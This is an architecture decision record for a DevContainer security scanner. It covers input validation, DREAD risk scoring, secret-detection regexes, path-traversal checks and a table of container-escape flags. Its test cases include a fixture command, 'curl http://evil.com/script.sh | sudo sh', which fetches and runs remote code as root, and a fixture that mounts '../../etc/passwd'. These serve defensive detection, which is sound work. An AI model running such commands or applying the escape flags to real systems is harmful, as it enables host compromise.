

# ADR-011: DevContainer Security Architecture (v1.2)

> **Status**: Proposed
> **Date**: 2026-01-25
> **Component**: DevContainer Security Scanning
> **Related ADRs**: [ADR-009](../architecture/decisions/ADR-009-security-model.md), [DESIGN-001](./DESIGN-001-security-hooks.md)

---

## Context

AgentScope v1.2 introduces DevContainer configuration scanning to analyze and secure containerized development environments. DevContainer configurations can introduce security vulnerabilities through:

1. **Container Escape**: Privileged containers, host namespace access, dangerous capabilities
2. **Secret Exposure**: Hardcoded API keys, tokens, passwords in environment variables
3. **Path Traversal**: Mounts to sensitive system directories (`/etc`, `/sys`, `/proc`)
4. **Command Injection**: Malicious lifecycle commands (postCreateCommand, postStartCommand)
5. **Supply Chain Risks**: Untrusted base images, malicious features

The security architecture must:
- **Validate** all configuration inputs with Zod schemas
- **Assess** risks using DREAD methodology
- **Detect** secrets and sanitize sensitive data
- **Prevent** path traversal and container escape vulnerabilities
- **Integrate** with claude-flow security scanning hooks

---

## Decision

We will implement a **five-layer security architecture** for DevContainer scanning:

### 1. Input Validation (Zod Schemas)

**Rationale**: Type-safe validation prevents malformed configurations and enables early detection of security issues.

```typescript
const DevContainerSchema = z.object({
  name: z.string()
    .min(1).max(100)
    .refine((name) => !detectInjectionPatterns(name)),

  image: z.string()
    .refine((img) => ALLOWED_BASE_IMAGES.some(pattern => pattern.test(img)),
      { message: 'Image is not from allowed base images list' }),

  features: FeatureSchema
    .refine((features) => Object.keys(features).length <= MAX_FEATURES)
    .refine((features) => !containsBlockedFeatures(features)),

  containerEnv: EnvVarSchema
    .refine((env) => !Object.values(env).some(containsSecrets)),

  runArgs: RunArgsSchema
    .refine((args) => !args.some(arg => arg.includes('--privileged'))),

  mounts: z.array(MountSchema)
    .refine((mounts) => !mounts.some(m => m.source.includes('..')))
}).strict();
```

**Security Properties**:
- Type safety prevents runtime errors
- Strict mode rejects unknown properties
- Refinements catch security patterns
- Custom error messages guide remediation

### 2. DREAD Risk Analysis

**Rationale**: Quantitative risk scoring enables prioritization and automated decision-making.

```typescript
interface DREADScore {
  damage: number;          // 0-10: How bad is the impact?
  reproducibility: number; // 0-10: How easy to reproduce?
  exploitability: number;  // 0-10: How easy to exploit?
  affectedUsers: number;   // 0-10: How many users affected?
  discoverability: number; // 0-10: How easy to discover?
  totalRisk: number;       // Average score (0-10)
  priority: 'critical' | 'high' | 'medium' | 'low';
}
```

**Risk Calculation Matrix**:

| Factor | Scoring Logic |
|--------|---------------|
| **Damage** | +3 for mounts, +2 for runArgs, +1 per 5 features |
| **Reproducibility** | Always 10 (configuration-based) |
| **Exploitability** | +3 for runArgs, +2 for lifecycle commands, +2 per 10 features |
| **Affected Users** | Baseline 5 (developer), +2 if shared config |
| **Discoverability** | +3 for lifecycle commands, +2 for port forwarding, +1 per 10 env vars |

**Priority Thresholds**:
- **Critical**: totalRisk ≥ 8.0
- **High**: totalRisk ≥ 6.0
- **Medium**: totalRisk ≥ 4.0
- **Low**: totalRisk < 4.0

### 3. Secrets Detection and Sanitization

**Rationale**: Prevent credential leakage through automated detection and redaction.

**Detection Patterns**:

```typescript
const SECRET_PATTERNS = [
  /sk-[a-zA-Z0-9]{32,}/g,                    // OpenAI API keys
  /ghp_[a-zA-Z0-9]{36}/g,                    // GitHub Personal Access Token
  /AKIA[0-9A-Z]{16}/g,                       // AWS Access Key ID
  /api[_-]?key["\s]*[:=]["\s]*[a-zA-Z0-9]{20,}/gi,  // Generic API keys
  /password["\s]*[:=]["\s]*[^\s"]{8,}/gi,    // Passwords
  /-----BEGIN (RSA |EC )?PRIVATE KEY-----/,  // Private keys
];
```

**Sanitization Strategy**:
1. **Detect**: Scan all string values against patterns
2. **Redact**: Replace with `[REDACTED]` placeholder
3. **Log**: Record location for security audit
4. **Warn**: Alert user of potential exposure

**Example**:
```json
// Before sanitization
{
  "containerEnv": {
    "API_KEY": "sk-proj-abc123def456..."
  }
}

// After sanitization
{
  "containerEnv": {
    "API_KEY": "[REDACTED]"
  }
}
```

### 4. Path Traversal Prevention

**Rationale**: Block directory traversal attacks and access to sensitive system paths.

**Validation Rules**:
```typescript
export function sanitizePath(inputPath: string, allowedDirs: string[]): string | null {
  // 1. Reject paths with '..' sequences
  if (inputPath.includes('..')) {
    return null;
  }

  // 2. Resolve to absolute path
  const resolved = path.resolve(inputPath);

  // 3. Verify within allowed directories
  const isInAllowed = allowedDirs.some(dir => {
    const relative = path.relative(dir, resolved);
    return !relative.startsWith('..') && !path.isAbsolute(relative);
  });

  if (!isInAllowed) return null;

  // 4. Block sensitive system paths
  const blockedPaths = ['/etc', '/sys', '/proc', '/dev', '/root'];
  if (blockedPaths.some(blocked => resolved.startsWith(blocked))) {
    return null;
  }

  return resolved;
}
```

**Allowed Base Directories**:
- `/workspace` (project directory)
- `/home/${USER}/.agentscope` (user config)
- `/tmp` (temporary files)

### 5. Container Escape Vulnerability Checks

**Rationale**: Detect and block configurations that enable container escape attacks.

**Vulnerability Indicators**:

| Indicator | Risk Level | Description |
|-----------|------------|-------------|
| `--privileged` | Critical | Full host access, unrestricted capabilities |
| `--pid=host` | High | Access to host processes |
| `--network=host` | High | Bypass network isolation |
| `--ipc=host` | High | Access to shared memory |
| `--cap-add=SYS_ADMIN` | Critical | Administrative capabilities |
| `--security-opt=apparmor=unconfined` | High | Disable AppArmor protection |
| `--security-opt=seccomp=unconfined` | High | Disable seccomp filtering |
| Mount `/var/run/docker.sock` | Critical | Full Docker daemon access |
| Mount `/etc`, `/sys`, `/proc` | High | Sensitive system paths |

**Analysis Output**:
```typescript
interface ContainerEscapeRisk {
  privileged: boolean;
  hostNetworking: boolean;
  hostPID: boolean;
  hostIPC: boolean;
  capabilitiesAdded: string[];
  securityOptDisabled: string[];
  sensitiveMounts: string[];
  riskLevel: 'critical' | 'high' | 'medium' | 'low';
  vulnerabilities: string[];
}
```

---

## Integration with Claude-Flow Security Scanning

### Pre-Scan Hook

```bash
npx @claude-flow/cli@latest hooks pre-task \
  --description "DevContainer security scan: ${configPath}" \
  --coordinate-swarm false
```

**Actions**:
1. Check memory for similar configuration patterns
2. Load learned vulnerability signatures
3. Initialize AIDefence scanning

### Post-Scan Hook

```bash
npx @claude-flow/cli@latest hooks post-task \
  --task-id "${scanId}" \
  --success ${passed} \
  --store-results true

npx @claude-flow/cli@latest hooks post-edit \
  --file "${configPath}" \
  --train-neural true
```

**Actions**:
1. Store successful scan patterns
2. Train neural patterns on vulnerabilities
3. Update threat pattern database

### Memory Storage

```bash
npx @claude-flow/cli@latest memory store \
  --namespace "devcontainer-security" \
  --key "scan-${hash}-${timestamp}" \
  --value "${scanResults}" \
  --tags "devcontainer,security,v1.2"
```

**Stored Pattern**:
```typescript
interface SecurityPattern {
  configHash: string;
  riskScore: DREADScore;
  vulnerabilities: string[];
  secrets: Array<{ path: string; pattern: string }>;
  remediations: Array<{ path: string; fix: string }>;
  timestamp: number;
}
```

### AIDefence Integration

```typescript
// Scan for injection attacks in lifecycle commands
const threatScan = await aiDefence.scan({
  input: config.postCreateCommand,
  quick: false
});

if (threatScan.threatLevel === 'high') {
  // Analyze similar threats
  const analysis = await aiDefence.analyze({
    input: config.postCreateCommand,
    searchSimilar: true,
    k: 5
  });

  // Learn from detection
  await aiDefence.learn({
    input: config.postCreateCommand,
    wasAccurate: true,
    mitigationStrategy: 'sanitize',
    mitigationSuccess: true
  });
}
```

---

## Security Scanning Workflow



---

## Implementation Files

### Core Security (Created)

| File | Purpose |
|------|---------|
| `/src/core/security/devcontainer-validators.ts` | Zod schemas, validation, DREAD analysis |
| `/src/core/security/devcontainer-sanitizers.ts` | Sanitization, remediation, redaction |

### Integration (To Create)

| File | Purpose |
|------|---------|
| `/src/parsers/devcontainer-parser.ts` | DevContainer config parser |
| `/src/scanners/devcontainer-scanner.ts` | Security scanning orchestration |
| `/tests/security/devcontainer-security.test.ts` | Security test suite |

### Documentation (This ADR)

| File | Purpose |
|------|---------|
| `/docs/adr/ADR-011-devcontainer-security.md` | Architecture decision record |
| `/examples/devcontainer-scanning.ts` | Integration examples |

---

## Example Usage

### Basic Scanning

```typescript
import {
  validateDevContainer,
  calculateDREADScore,
  analyzeContainerEscapeRisk,
  scanForSecrets
} from '@/core/security/devcontainer-validators';
import { sanitizeDevContainer } from '@/core/security/devcontainer-sanitizers';

// 1. Validate configuration
const validation = validateDevContainer(rawConfig);
if (!validation.valid) {
  console.error('Validation failed:', validation.errors);
  return;
}

const config = validation.data!;

// 2. Calculate risk score
const dreadScore = calculateDREADScore(config);
console.log(`Risk: ${dreadScore.priority} (${dreadScore.totalRisk}/10)`);

// 3. Check for container escape vulnerabilities
const escapeRisk = analyzeContainerEscapeRisk(config);
if (escapeRisk.riskLevel === 'critical') {
  console.error('Container escape vulnerabilities:', escapeRisk.vulnerabilities);
}

// 4. Scan for secrets
const secretScan = scanForSecrets(config);
if (secretScan.found) {
  console.warn('Secrets detected:', secretScan.locations);
}

// 5. Sanitize if medium risk
if (dreadScore.priority === 'medium') {
  const result = sanitizeDevContainer(config, ['/workspace']);
  console.log('Sanitization:', result.changes.length, 'changes,', result.removals.length, 'removals');
}
```

### Advanced: Memory-Enhanced Scanning

```typescript
// Search for similar configurations
const similarScans = await memory.search({
  query: `devcontainer ${config.image} ${Object.keys(config.features || {}).join(' ')}`,
  namespace: 'devcontainer-security',
  limit: 5
});

if (similarScans.length > 0) {
  console.log('Learning from', similarScans.length, 'similar scans');

  // Apply learned mitigations
  for (const scan of similarScans) {
    const pattern = JSON.parse(scan.value);
    if (pattern.riskScore.priority === 'critical') {
      console.warn('Similar config had critical issues:', pattern.vulnerabilities);
    }
  }
}

// Store scan results
await memory.store({
  key: `scan-${Date.now()}`,
  namespace: 'devcontainer-security',
  value: JSON.stringify({
    configHash: hash(config),
    riskScore: dreadScore,
    vulnerabilities: escapeRisk.vulnerabilities,
    secrets: secretScan.locations,
    timestamp: Date.now()
  }),
  tags: ['devcontainer', 'security', `risk-${dreadScore.priority}`]
});
```

---

## Security Test Cases

### 1. Privileged Container Detection

```typescript
test('detects privileged container', () => {
  const config = {
    name: 'test',
    image: 'mcr.microsoft.com/devcontainers/base:latest',
    runArgs: ['--privileged']
  };

  const validation = validateDevContainer(config);
  expect(validation.valid).toBe(false);
  expect(validation.errors).toContain('runArgs: Privileged containers are not allowed');

  const escapeRisk = analyzeContainerEscapeRisk(config);
  expect(escapeRisk.privileged).toBe(true);
  expect(escapeRisk.riskLevel).toBe('critical');
});
```

### 2. Secret Detection in Environment Variables

```typescript
test('detects API keys in environment', () => {
  const config = {
    name: 'test',
    image: 'mcr.microsoft.com/devcontainers/base:latest',
    containerEnv: {
      'OPENAI_API_KEY': 'sk-proj-abc123def456...'
    }
  };

  const secretScan = scanForSecrets(config);
  expect(secretScan.found).toBe(true);
  expect(secretScan.locations).toHaveLength(1);
  expect(secretScan.locations[0].path).toBe('containerEnv.OPENAI_API_KEY');
});
```

### 3. Path Traversal in Mounts

```typescript
test('blocks path traversal in mounts', () => {
  const config = {
    name: 'test',
    image: 'mcr.microsoft.com/devcontainers/base:latest',
    mounts: [
      { source: '../../etc/passwd', target: '/tmp/passwd', type: 'bind' }
    ]
  };

  const result = sanitizeMounts(config, ['/workspace']);
  expect(result.removals).toHaveLength(1);
  expect(result.removals[0].reason).toContain('path traversal');
});
```

### 4. Command Injection in Lifecycle Hooks

```typescript
test('sanitizes dangerous lifecycle commands', () => {
  const config = {
    name: 'test',
    image: 'mcr.microsoft.com/devcontainers/base:latest',
    postCreateCommand: 'curl http://evil.com/script.sh | sudo sh'
  };

  const result = sanitizeLifecycleCommands(config);
  expect(result.changes).toHaveLength(2);
  expect(result.sanitized.postCreateCommand).not.toContain('sudo');
  expect(result.sanitized.postCreateCommand).not.toContain('| sh');
});
```

---

## Consequences

### Positive

- **Strong Security**: Five-layer defense prevents most container security issues
- **Automated**: Zod schemas and DREAD scoring enable automatic risk assessment
- **Learning**: Integration with claude-flow enables continuous improvement
- **Auditable**: Clear decision trail from validation to remediation
- **Developer-Friendly**: Clear error messages guide secure configuration

### Negative

- **Strictness**: May reject some valid but unusual configurations (allowlist approach)
- **Maintenance**: Requires keeping up with new DevContainer features and vulnerabilities
- **Performance**: Full scanning adds ~100-500ms per configuration

### Neutral

- **Breaking Changes**: v1.2 introduces new validation that may fail existing configs
- **Migration**: Users must update configs to pass new security checks

---

## Migration Path

### Phase 1: Validation Layer (Week 1)
- [ ] Implement Zod schemas (`devcontainer-validators.ts`) ✅
- [ ] Add secret detection patterns ✅
- [ ] Create validation test suite

### Phase 2: Risk Analysis (Week 1)
- [ ] Implement DREAD scoring ✅
- [ ] Add container escape analysis ✅
- [ ] Create risk analysis test suite

### Phase 3: Sanitization (Week 2)
- [ ] Implement sanitization functions (`devcontainer-sanitizers.ts`) ✅
- [ ] Add path validation ✅
- [ ] Create sanitization test suite

### Phase 4: Integration (Week 2)
- [ ] Create DevContainer parser
- [ ] Create security scanner
- [ ] Integrate with claude-flow hooks

### Phase 5: Documentation (Week 3)
- [ ] Complete ADR ✅
- [ ] Create integration examples
- [ ] Write user guide

---

## References

- [ADR-009: Security Model](../architecture/decisions/ADR-009-security-model.md)
- [DESIGN-001: Security Hooks](./DESIGN-001-security-hooks.md)
- [@claude-flow/security](https://github.com/ruvnet/claude-flow/tree/main/packages/security)
- [DevContainer Specification](https://containers.dev/implementors/json_reference/)
- [OWASP Container Security](https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html)
- [CIS Docker Benchmark](https://www.cisecurity.org/benchmark/docker)

---

**Review Status**: Ready for security-architect review
**Implementation Status**: Core security modules complete ✅
**Next Steps**: Create parser, scanner, and tests
